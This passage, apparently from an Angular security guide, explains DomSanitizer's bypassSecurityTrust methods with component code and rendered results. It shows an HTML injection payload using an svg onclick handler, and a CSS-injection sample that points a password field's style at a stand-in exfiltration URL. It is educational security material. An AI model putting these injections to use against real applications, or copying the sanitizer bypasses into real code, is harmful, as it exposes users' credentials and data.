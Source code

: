 2. `bypassSecurityTrustResourceUrl` is used to indicate the given value is a safe resource URL:
    
    ```jsx
    //app.component.ts
    this.trustedResourceUrl = this.sanitizer.bypassSecurityTrustResourceUrl("https://www.google.com/images/branding/googlelogo/1x/googlelogo_light_color_272x92dp.png");
    
    //app.component.html
    <iframe [src]="trustedResourceUrl"></iframe>
    
    //result
    <img _ngcontent-nre-c12="" src="https://www.google.com/images/branding/googlelogo/1x/googlelogo_light_color_272x92dp.png">
    ```
    
3. `bypassSecurityTrustHtml` is used to indicate the given value is safe HTML. Note that inserting `script` elements into the DOM tree in this way will not cause them to execute the enclosed JavaScript code, because of how these elements are added to the DOM tree.
    
    ```jsx
    //app.component.ts
    this.trustedHtml = this.sanitizer.bypassSecurityTrustHtml("<h1>html tag</h1><svg onclick=\"alert('bypassSecurityTrustHtml')\" style=display:block>blah</svg>");
    
    //app.component.html
    <p style="border:solid" [innerHtml]="trustedHtml"></p>
    
    //result
    <h1>html tag</h1>
    <svg onclick="alert('bypassSecurityTrustHtml')" style="display:block">blah</svg>
    ```
    
4. `bypassSecurityTrustScript` is used to indicate the given value is safe JavaScript. However, we found its behavior to be unpredictable, because we couldn’t to execute JS code in templates using this method.

    ```jsx
    //app.component.ts
    this.trustedScript = this.sanitizer.bypassSecurityTrustScript("alert('bypass Security TrustScript')");

    //app.component.html
    <script [innerHtml]="trustedScript"></script>

    //result
    -
    ```

1. `bypassSecurityTrustStyle` is used to indicate the given value is safe CSS. The following example illustrates CSS injection:

    ```jsx
    //app.component.ts
    this.trustedStyle = this.sanitizer.bypassSecurityTrustStyle('background-image: url(https://example.com/exfil/a)');

    //app.component.html
    <input type="password" name="pwd" value="01234" [style]="trustedStyle">
